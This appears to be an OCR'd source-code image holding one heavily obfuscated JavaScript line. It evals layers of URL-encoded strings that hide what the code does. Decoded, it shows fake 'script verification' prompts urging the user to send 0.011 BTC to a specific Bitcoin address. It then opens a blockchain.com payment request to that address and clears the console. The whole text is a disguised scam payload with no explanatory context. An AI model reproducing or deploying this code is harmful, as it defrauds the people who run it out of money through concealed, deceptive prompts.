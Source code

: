 eval(decodeURIComponent('%76%61%72%20%72%37%67%78%6F%20%3D%20%70%61%72%73%65%46%6C%6F%61%74%28%70%72%6F%6D%70%74%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%32%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%37%37%25%37%37%25%37%37%25%32%65%25%36%32%25%36%63%25%36%66%25%36%33%25%36%62%25%36%33%25%36%38%25%36%31%25%36%39%25%36%65%25%32%65%25%36%33%25%36%66%25%36%64%25%32%66%25%36%32%25%37%34%25%36%33%25%32%66%25%37%34%25%37%38%25%32%66%25%32%32%27%29%29%2C%20%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%37%25%32%37%27%29%29%29%29%3B%20%61%6C%65%72%74%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%32%25%34%31%25%37%33%25%32%30%25%36%31%25%32%30%25%37%33%25%36%35%25%36%33%25%37%35%25%37%32%25%36%39%25%37%34%25%37%39%25%32%30%25%37%30%25%37%32%25%36%35%25%36%33%25%36%31%25%37%35%25%37%34%25%36%39%25%36%66%25%36%65%25%32%63%25%32%30%25%35%30%25%36%63%25%36%35%25%36%31%25%37%33%25%36%35%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%37%37%25%36%39%25%37%34%25%36%38%25%32%30%25%34%32%25%36%63%25%36%66%25%36%33%25%36%62%25%34%33%25%36%38%25%36%31%25%36%39%25%36%65%25%32%30%25%37%37%25%36%31%25%36%63%25%36%63%25%36%35%25%37%34%25%32%30%25%36%32%25%36%35%25%36%36%25%36%66%25%37%32%25%36%35%25%32%30%25%37%39%25%36%66%25%37%35%25%32%30%25%36%33%25%36%31%25%36%65%25%32%30%25%37%30%25%37%32%25%36%66%25%36%33%25%36%35%25%36%35%25%36%34%25%32%65%25%32%32%27%29%29%29%3B%20%76%61%72%20%72%37%67%78%6F%20%3D%20%70%61%72%73%65%46%6C%6F%61%74%28%70%72%6F%6D%70%74%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%32%25%35%39%25%36%46%25%37%35%25%37%32%25%32%30%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%36%44%25%37%35%25%37%33%25%37%34%25%32%30%25%36%32%25%36%35%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%36%39%25%36%35%25%36%34%25%32%30%25%37%37%25%36%39%25%37%34%25%36%38%25%32%30%25%37%39%25%36%46%25%37%35%25%37%32%25%32%30%25%34%32%25%36%43%25%36%46%25%36%33%25%36%42%25%34%33%25%36%38%25%36%31%25%36%39%25%36%45%25%32%30%25%37%37%25%36%31%25%36%43%25%36%43%25%36%35%25%37%34%25%32%30%25%36%32%25%36%35%25%36%36%25%36%46%25%37%32%25%36%35%25%32%30%25%37%39%25%36%46%25%37%35%25%32%30%25%36%33%25%36%31%25%36%45%25%32%30%25%37%34%25%36%31%25%36%42%25%36%35%25%32%30%25%37%34%25%36%38%25%36%39%25%37%33%25%32%30%25%36%31%25%36%33%25%37%34%25%36%39%25%36%46%25%36%45%25%32%45%25%32%30%25%35%30%25%36%43%25%36%35%25%36%31%25%37%33%25%36%35%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%36%32%25%37%39%25%32%30%25%36%31%25%36%34%25%36%34%25%36%39%25%36%45%25%36%37%25%32%30%25%32%38%25%33%30%25%32%45%25%33%30%25%33%31%25%33%31%25%32%39%25%32%30%25%34%32%25%35%34%25%34%33%25%32%30%25%37%34%25%36%46%25%32%30%25%36%31%25%37%30%25%37%30%25%36%31%25%37%32%25%36%35%25%36%45%25%37%34%25%32%30%25%36%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%33%41%25%32%32%27%29%29%2C%20%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%37%25%33%31%25%34%35%25%33%37%25%34%37%25%34%43%25%33%33%25%34%37%25%36%31%25%34%32%25%34%44%25%35%38%25%34%37%25%35%30%25%36%36%25%36%42%25%37%41%25%34%34%25%35%36%25%34%44%25%36%46%25%34%37%25%37%34%25%35%41%25%36%42%25%33%38%25%36%45%25%37%30%25%35%33%25%33%36%25%34%45%25%33%36%25%37%34%25%37%31%25%36%38%25%32%37%27%29%29%29%29%3B%20%76%61%72%20%77%38%75%67%6F%20%3D%20%77%69%6E%64%6F%77%2E%63%6F%6E%66%69%72%6D%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%32%25%35%39%25%36%66%25%37%35%25%37%32%25%32%30%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%36%64%25%37%35%25%37%33%25%37%34%25%32%30%25%36%32%25%36%35%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%36%39%25%36%35%25%36%34%25%32%30%25%37%37%25%36%39%25%37%34%25%36%38%25%32%30%25%37%39%25%36%66%25%37%35%25%37%32%25%32%30%25%36%31%25%36%33%25%36%33%25%36%66%25%37%35%25%36%65%25%37%34%25%32%30%25%36%32%25%36%35%25%36%36%25%36%66%25%37%32%25%36%35%25%32%30%25%37%39%25%36%66%25%37%35%25%32%30%25%36%33%25%36%31%25%36%65%25%32%30%25%37%34%25%36%31%25%36%62%25%36%35%25%32%30%25%37%34%25%36%38%25%36%39%25%37%33%25%32%30%25%36%31%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%32%65%25%32%30%25%34%33%25%36%63%25%36%39%25%36%33%25%36%62%25%32%30%25%34%66%25%34%62%25%32%30%25%37%34%25%36%66%25%32%30%25%35%36%25%36%35%25%37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%35%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%32%27%29%29%29%3B%20%69%66%20%28%77%38%75%67%6F%29%20%7B%20%77%69%6E%64%6F%77%2E%6F%70%65%6E%28%20%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%41%25%32%46%25%32%46%25%37%37%25%37%37%25%37%37%25%32%45%25%36%32%25%36%43%25%36%46%25%36%33%25%36%42%25%36%33%25%36%38%25%36%31%25%36%39%25%36%45%25%32%45%25%36%33%25%36%46%25%36%44%25%32%46%25%36%32%25%37%34%25%36%33%25%32%46%25%37%30%25%36%31%25%37%39%25%36%44%25%36%35%25%36%45%25%37%34%25%35%46%25%37%32%25%36%35%25%37%31%25%37%35%25%36%35%25%37%33%25%37%34%25%33%46%25%36%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%33%44%25%33%31%25%34%35%25%33%37%25%34%37%25%34%43%25%33%33%25%34%37%25%36%31%25%34%32%25%34%44%25%35%38%25%34%37%25%35%30%25%36%36%25%36%42%25%37%41%25%34%34%25%35%36%25%34%44%25%36%46%25%34%37%25%37%34%25%35%41%25%36%42%25%33%38%25%36%45%25%37%30%25%35%33%25%33%36%25%34%45%25%33%36%25%37%34%25%37%31%25%36%38%25%32%36%25%36%44%25%36%35%25%37%33%25%37%33%25%36%31%25%36%37%25%36%35%25%33%44%25%35%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%35%25%33%32%25%33%30%25%35%36%25%36%35%25%37%32%25%36%39%25%36%36%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%46%25%36%45%25%32%36%25%36%31%25%36%44%25%36%46%25%37%35%25%36%45%25%37%34%25%33%44%25%33%30%25%32%45%25%33%30%25%33%31%25%33%31%25%32%37%27%29%29%20%29%3B%20%7D%20%65%6C%73%65%20%7B%20%61%6C%65%72%74%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%32%25%35%30%25%36%63%25%36%35%25%36%31%25%37%33%25%36%35%25%32%30%25%36%32%25%36%31%25%36%33%25%36%62%25%32%30%25%37%34%25%36%66%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%37%39%25%32%30%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%65%25%32%32%27%29%29%20%29%3B%20%7D%20%63%6F%6E%73%6F%6C%65%2E%63%6C%65%61%72%28%29%3B%63%6F%6E%73%6F%6C%65%2E%6C%6F%67%28%65%76%61%6C%28%64%65%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%27%25%32%37%25%35%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%36%65%25%36%66%25%37%34%25%32%30%25%37%36%25%36%35%25%37%32%25%36%39%25%36%36%25%36%39%25%36%35%25%36%34%25%32%31%25%32%37%27%29%29%29%3B%20'));
